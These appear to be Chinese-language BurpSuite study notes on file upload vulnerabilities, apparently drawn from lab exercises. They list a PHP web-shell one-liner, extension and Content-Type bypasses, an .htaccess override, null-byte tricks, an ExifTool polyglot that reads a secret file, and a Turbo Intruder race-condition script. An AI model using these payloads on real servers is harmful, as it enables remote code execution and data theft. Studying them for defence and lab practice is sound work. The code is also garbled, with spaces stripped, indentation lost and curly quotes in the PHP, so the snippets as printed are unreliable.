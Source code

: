 [TOC]

# Web安全BurpSuite学习笔记

涉及到的工具：ExifTool,Extension:TurboIntruder,

## 服务器




### 文件上传漏洞 FileUpLoadVulnerability
关键语句
```php
<?php system(“command”);?>
```

1. 直接上传PHP文件，然后访问
2.服务器根据请求头判断是否接受到期望的文件类型修改请求头PHP文件类型

3. 服务器对某些目录设置了执行权限直接修改请求头中PHP文件名上传到其他目录..%2f%2f=/不然服务器可能会删除../，先用URL编码绕过过滤

4. 服务器对某些可执行文件设置了黑名单更改PHP文件的后缀为其他类型，然后通过特殊的目录可执行文件配置绕过

Apache可执行文件配置名是.htaccess：

方法 POST        请求头 content-type: text/plain    内容  AddType application/x-httpd-php    .yyy

IIS是web.config文件：
```html
<staticContent>
<mimeMapfileExtension=".json" mimeType="application/json"/>
</staticContent>
```
5. 服务器对某些可执行文件设置了黑名单，或是设置了白名单采用模糊文件后缀名的方式URL编码null字符绕过等%00=null

exploit.php.jpg exploit.php.  exploit%2Ephp.   exploit.p.phphp. 主要看他过滤的方式

exploit.asp;.jpg  or exploit.asp%00.jpg如果验证的代码是用高级语言编写而服务器执行文件的时候用的是C/C++的程序，那么可以通过字符串截断的方式来绕过

6. 服务器根据文件的内容来，比如开头或结尾的指纹来判断类型使用ExifTool工具将PHP代码嵌入到jpeg图像中，并修改文件后缀为PHP

```sh
exiftool-Comment="<?php echo'START'.file_get_contents('/home/carlos/secret').'END';?>"test.jpeg -o poly.php
```
7. 服务器自带文件名检测和文件病毒检测，它采用沙箱的方式检测病毒使用Tubor Intruder来快速的发送post和get请求，在上传恶意文件后，在服务器扫描和删除它之前的小时间段内，访问恶意文件，利用时间差
```python
def queueRequests(target,wordlists):
engine=RequestEngine(endpoint=target.endpoint,concurrentConnections=10,)

request1='''<YOUR-POST-REQUEST>'''

request2='''<YOUR-GET-REQUEST>'''

#the'gate'argumentblocksthefinalbyteofeachrequestuntilopenGateisinvoked
engine.queue(request1,gate='race1')
for x inrange(5):
engine.queue(request2,gate='race1')

#waituntilevery'race1'taggedrequestisready
#thensendthefinalbyteofeachrequest
#(thismethodisnon-blocking,justlikequeue)
engine.openGate('race1')

engine.complete(timeout=60)


```